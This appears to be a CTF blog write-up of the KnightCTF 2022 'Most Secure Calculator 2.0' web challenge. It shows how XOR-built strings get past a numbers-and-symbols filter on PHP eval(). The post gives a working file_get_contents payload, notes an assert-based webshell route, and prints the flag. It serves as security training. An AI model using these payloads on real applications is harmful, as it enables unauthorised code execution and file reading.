 ```yaml
---
layout: post
title:  "Most Secure Calculator 2.0 - Web"
date:   2022-01-22 12:28:05 +0100
categories: writeups
---
```


```
Challenge: Most Secure Calculator 2.0
Author: Shotokhan
Description: Command injection in PHP eval with only numbers and special chars
CTF: KnightCTF 2022
Category: Web
```

# Writeup
We have a form to insert equations into; it will evaluate them and return back the result. <br>
<br> ![landing_page](https://github.com/pwnthenope/pwnthenope.github.io/blob/main/static/post_images/most_secure_calculator_2.png?raw=true) <br>
In source page's HTML comments, we can see that only number and special chars are allowed:

{% highlight html %}
<--
Hi Selina, 
I learned about regex today. I have upgraded the previous calculator. Now its the most secure calculator ever.
The calculator accepts only numbers and symbols. 
I have hidden some interesting things in flag.txt and I know you can create an interesting equation to read that file.
-->
{% endhighlight %}

By interacting with the site, we can also learn that the maximum number of characters allowed in an equation is 79. <br>
We also learn, by submitting a single special char, that the equation is evaluated using ```eval``` PHP function, for example from this warning: <br>

```
Result:
Warning: Use of undefined constant _ - assumed '_' (this will throw an Error in a future version of PHP) in /var/www/html/index.php(12) : eval()'d code on line 1
_
```

We can inject code by using variable functions; but we have a problem: we can only use built-in PHP functions as variable functions, because PHP ```eval``` actually doesn't allow variable functions. <br>
For example we can use ```assert``` to escape from ```eval``` limitation on variable functions, crafting some payload that results in ```assert($_POST[_])```; it would allow us to gain a webshell. <br>
But there is chance that the code is in production mode, i.e. ```zend.assertions = -1``` (check PHP docs about assert). <br>
So it's easier to craft a payload that results in ```file_get_contents("flag.txt")```. <br>
A note about that: since we'll build the payload by putting strings together, actually we don't need to craft the double quotes around ```flag.txt```. <br>
Now, a strategy is the usage of XOR function to obtain alphabetic strings by putting together strings composed of numbers and special chars. <br>
For example:

{% highlight php %}
('%'^'`')
{% endhighlight %}

Results in: ```E```. <br>
Can we make a function call? Let's check out:

{% highlight php %}
('%'^'`')()
{% endhighlight %}

The result is:

```
Result :
Fatal error: Uncaught Error: Call to undefined function E() in /var/www/html/index.php(12) : eval()'d code:1 Stack trace: #0 /var/www/html/index.php(12): eval() #1 {main} thrown in /var/www/html/index.php(12) : eval()'d code on line 1
```

Perfect, now we have to obtain ```file_get_contents("flag.txt")```, without double quotes and with a limit of 79 characters. <br>
After some tries, the final, working payload is:

{% highlight php %}
('@@@@"_@@"@@@@@@@@'^'&),%}8%4}#/.4%.43')(("@@@_"^"&,!8").(".").("@@@"^"484"))
{% endhighlight %}

And here's the flag:

```
KCTF{sHoUlD_I_uSe_eVaL_lIkE_tHaT}
```



